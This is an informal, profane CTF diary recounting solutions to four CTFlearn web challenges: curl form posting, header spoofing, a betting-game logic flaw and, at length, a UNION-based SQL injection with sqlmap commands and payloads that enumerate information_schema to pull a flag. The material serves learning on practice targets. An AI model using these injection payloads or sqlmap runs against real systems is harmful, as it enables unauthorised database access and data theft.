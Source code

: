 alright its 3 50 in the fcuking morning idk what better to do than stf instad of sleeping, writeup time....

curl -X POST -d "username=admin&pass -d=71up-dnlkadsf" http://165.227.106.113/post.php
this is the challange link btw , you need to login to see -> https://ctflearn.com/challenge/114 

welp apparenntly this command is quite useful , yeah... 
curl or client URL can help you get the webpage from terminal (as if you dont have a browser....)
it also has parameters you can use to send data for example , nice right ? (as if a browser couldnt do it)
according to the curl -h , the -d parameter allows you to send data ain a form of http post request . honestly have no idea what the -X means ahah
ok i lied , the first part of the command curl -X POST is to specify the method using the -X parameter and POST being the method in this case(other methods such as GET)
the -d basically as mentioned above allows you to send/POST data and specifies the data you want to send 

ive completed my first writeup?
i like to call them notes or better known as references , writeup too formal for this bullshit 
for now this thing is named the bloodflame archive cuz i have no idea what to name it while also listening to ERB (would have been an amazing pun if i was writting thsi on ARCH instaed of ubuntu...)
y'knwo what , maybe this can be known better as my CTF diary since i yap so much bs here ahhahaa
aaaaaaaaany ways since i last formatted pc , i lost all my progress(diary) on SKR, gotta redo it here , for now this is all i have , im a poor man , poor of information 
its 4 01 , my sleep is fucked, i havent finished my dailies , im going to sleep , need to contol the ctf addiction !!!


# kk challenge 2 
another curl challange yay!!!
first try was -> curl http://165.227.106.113/header.php
- error got error saying wrong user agent , so curl mentioned that i can specify an agent (whatever that is) to enter the site.
so i tried curl --user-agent Sup3rS3cr3tAg3nt http://165.227.106.113/header.php which used the agent given by the site
- next error says i did not come from a site called awesomesauce.com (how dare he discriminate me)
therefore after some bs and more bs , i figured that i couuld use a referer
found out using curl -help all   which btw shows all functions of curl
then the command become like this and the flag came out idk how hahahha 

curl -e awesomesauce.com  --user-agent Sup3rS3cr3tAg3nt http://165.227.106.113/header.php

challenge link -> https://ctflearn.com/challenge/109

yup thats all , fair diffuculty for meduim , my brain not too fucked HAHHAHA

# challange 3
I HAVE TO SAY , NO WEED OR GACHA PULLS SHOULD BE ABLE TO BEAT THE HIGH I JUST FELT SOLVING MY FIRST HARD CHALLANGE 
alright so heres the story and challenge link : https://ctflearn.com/challenge/149
so yeah this gonna be a long story , future me or whoever i share this with , get ready

the website has a simple ui that allows you to search for dogs by typing in an id (no checking btw)
after some test , there are 3 dogs in the database each with id 1-3
When each of these numbers are types in , the page displays the dog name , breed and color 

1st attempt starts with a basic sql injection from -> https://www.w3schools.com/sql/sql_injection.asp
The page then returned the data of all 3 dogs. 
This proves the site is inject-able and vulnerable.
Next step , find the damn flag...

In the challege tittle , it mentions union is a good command.
In sql , union basicaly uunites things, allowing the user to combinee the output of 2 select commands together provided they are of same datatype. 
Both select command also need to select the same command. 
Well, guess what i did , yes i tried to guess the style of the query like an idiot. 
1st guess : select * from dogs where id = 'userinput'
with this many attempts i took and none succeeded , not even outputting the 1st dog's name. 

After a few hours of searching , i came across something about information.schema.tables. 
OH , after 1 semester of sql , i didnt even know this table existed....
In fact , many more tables not only this one....
that aside, i tried to enter some strings like 

' UNION NULL,NULL,NULL,NULL -- 
as i figured that the table would only have a maximum of 4 columns.

' UNION SELECT * FROM information.schema.tables -- 
as i thought i might just get everything from that table, unfortunately no...

1 or 2 days later (i forgot , memory got hazy from all the sqli)
i looked up union attacks and even tried to intercept the request with burpsuite , no luck
Then i re-read the comments and saw a tool named sqlmap which many claimned to be the easiest way to do it. 
I looked up the github , and installed the tool on my ubuntu. 

At first i ran it  - python3 sqlmap.py -url "https://web.ctflearn.com/web8/?id=1"
not much return , following the error messages , i slowly finetune the command into this thing: 
python3 sqlmap.py -url "https://web.ctflearn.com/web8/?id=1" --technique=U --random-agent --dbms=mysql --tamper=space2comment

cant explain all but i know what some do
- url specifies the url to attack
- technique specifies the technique to use in this case being a union attack
- dbms specifies the database type which sqlmap has already found out being mysql
- i have absolutely no idea what the other 2 do but here is the explanation -> https://github.com/sqlmapproject/sqlmap/wiki/Usage

finally the program returned 3 files, a log file , target file and lastly a file named 'session.sqlite'
unfortunatly the session file could not be opened while both text files were repeated information showed in the terminal 
but it DID give something useful, which was the payload used to attack:

Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x71626a7071,0x736746507445514d6c6d794b6e65535a4d514a784959674a694474465443666e4145794e51454e41,0x7162787071),NULL-- -


i then used the payload to craete this attempt: 
1 UNION ALL SELECT NULL,CONCAT(0x71626a7071,0x736746507445514d6c6d794b6e65535a4d514a784959674a694474465443666e4145794e51454e41,0x7162787071),NULL,NULL-- -
it worked but only returned the decryped hex value in the input. 
references for this attempt : https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/ 

Next attempt :
1 UNION ALL SELECT TABLE_NAME,TABLE_TYPE,TABLE_CATALOG,TABLE_SCHEMA FROM information_schema.tables-- -
the page returned many tables but one felt off, it was w0w_y0u_f0und_m3
sadly it was not the flag...
references for this try : https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.htmlc , https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/

3rd attempt: 
1 UNION ALL SELECT TABLE_NAME,COLUMN_NAME,TABLE_SCHEMA,TABLE_CATALOG FROM information_schema.columns-- -
this time the page returned many things , including a column 'f0und_m3' from the table 'w0w_y0u_f0und_m3'


last attempt : 
1 UNION ALL SELECT NULL,f0und_m3,NULL,NULL FROM w0w_y0u_f0und_m3-- -
it returned the information of the first dog and the flag 

alright thats a grandfather level story , time to rest , enough games today 

# 4 
okok legit final oen for today
challenge -> https://ctflearn.com/challenge/691

this one quite simple, nc commect to the server , play the betting game 
simple concept of betting , guess a number, win = ur money + initial bet, loose = initial money - bet
so if 500 - 500 = 1000 , that explains all i need to redeem the flag 













